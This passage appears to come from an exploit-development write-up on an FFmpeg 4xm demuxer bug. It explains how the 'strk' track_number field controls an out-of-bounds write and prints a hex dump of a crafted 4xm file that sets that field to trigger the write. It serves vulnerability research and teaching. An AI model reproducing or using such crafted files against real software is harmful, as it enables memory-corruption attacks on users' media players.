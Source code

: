  ```
 bytes 0-3    fourcc: 'strk'
 bytes 4-7    length of strk structure (40 or 0x28 by
 bytes 8-11   track number
 bytes 12-15  audio type: 0 = PCM, 1 = 4X IMA ADPCM 
 bytes 16-35  unknown
 bytes 36-39  number of audio channels
 bytes 40-43  audio sample rate
 bytes 44-47  audio sample resolution (8 or 16 bits)
```

According to this reference the track number comes 4 bytes after the 'strk' string. Notice in the hex view above our first sound track is at offset 0x140:

```
0x00000140  7374 726b 2800 0000 0000 0000 0100 0000  strk(...........
```

Therefore our `track_number` could be written at offset 0x140 + 8 = 0x148. Verifying that this works we need to write a value to confirm we can make this write to the value read on the right hand sign of the assignment `fourxm->tracks[current_track].adpcm = AV_RL32(&header[i + 12]);` we can tell that this is read from the following 4 bytes after the track number by referencing where the track number is read from; `current_track = AV_RL32(&header[i + 8]);`.

My resulting 4xm file to confirm exploitability had the following bytes at offset 0x140:

```
[0x00000000 0% 2408 dracula.4xm]> xc
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF  comment
0x00000000  5249 4646 6ee1 4b01 3458 4d56 4c49 5354  RIFFn.K.4XMVLIST
0x00000010  f202 0000 4845 4144 4c49 5354 7400 0000  ....HEADLISTt...
0x00000020  484e 464f 6e61 6d65 2d00 0000 433a 5c34  HNFOname-...C:\4
0x00000030  785c 3458 4d4f 5649 4520 5631 2e30 5c62  x\4XMOVIE V1.0\b
0x00000040  696e 5c6d 316d 6963 6861 6469 6167 3033  in\m1michadiag03
0x00000050  5f34 3030 2e34 586d 0000 696e 666f 2200  _400.4Xm..info".
0x00000060  0000 5061 636b 6564 2077 6974 6820 3478  ..Packed with 4x
0x00000070  6d6f 7669 6520 762e 2033 2e32 2e30 2e31  movie v. 3.2.0.1
0x00000080  3431 3200 7374 645f 0800 0000 4c1f 0800  412.std_....L...
0x00000090  0000 7041 4c49 5354 6a02 0000 5452 4b5f  ..pALISTj...TRK_
0x000000a0  4c49 5354 7600 0000 5654 524b 6e61 6d65  LISTv...VTRKname
0x000000b0  1e00 0000 5c5c 506f 6972 6f5c 4156 495c  ....\\Poiro\AVI\
0x000000c0  4d31 4d69 6368 6144 6961 6730 332e 6176  M1MichaDiag03.av
0x000000d0  6900 7674 726b 4400 0000 0000 0000 0000  i.vtrkD.........
0x000000e0  0000 0200 0300 8405 0000 6202 0000 0000  ..........b.....
0x000000f0  0000 6102 0000 8002 0000 e001 0000 8002  ..a.............
0x00000100  0000 e001 0000 0000 0000 0000 0000 0000  ................
0x00000110  0000 0000 0000 0000 0000 0000 0000 4c49  ..............LI
0x00000120  5354 4a00 0000 5354 524b 6e61 6d65 0d00  STJ...STRKname..
0x00000130  0000 6672 616e 6361 6973 2e77 6176 0000  ..francais.wav..
0x00000140  7374 726b 2800 0000 a925 378d ffff ffff  strk(....%7.....
0x00000150  0000 0400 e903 0000 6202 0000 0000 0000  ........b.......
0x00000160  6102 0000 0200 0000 2256 0000 1000 0000  a......."V......
0x00000170  4c49 5354 4a00 0000 5354 524b 6e61 6d65  LISTJ...STRKname
0x00000180  0d00 0000 6573 7061 676e 6f6c 2e77 6176  ....espagnol.wav
0x00000190  0000 7374 726b 2800 0000 0100 0000 0100  ..strk(.........
0x000001a0  0000 0000 0400 e903 0000 6202 0000 0000  ..........b.....
0x000001b0  0000 6102 0000 0200 0000 2256 0000 1000  ..a......."V....
```
